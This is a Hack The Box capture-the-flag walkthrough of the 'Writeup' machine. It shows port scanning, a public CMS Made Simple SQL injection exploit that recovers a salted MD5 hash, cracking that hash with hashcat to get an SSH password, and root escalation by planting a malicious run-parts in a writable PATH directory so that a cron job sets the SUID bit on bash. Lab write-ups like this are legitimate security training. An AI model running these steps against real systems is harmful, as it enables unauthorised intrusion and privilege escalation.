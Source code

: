 # HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------

Writeup.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.

writeup_site.png

There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots/txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:

writeup_writeup.png

Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public expploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:

writeup_pw.png

Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:

writeup_user_flag.png

### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitiely uncommon enough to warrant looking into.

Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:

writeup_cron.png

Interesting, it appears that once we SSH'd in, the root user issues a cronjob using `run-parts`, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above I set the SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.

writeup_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------------------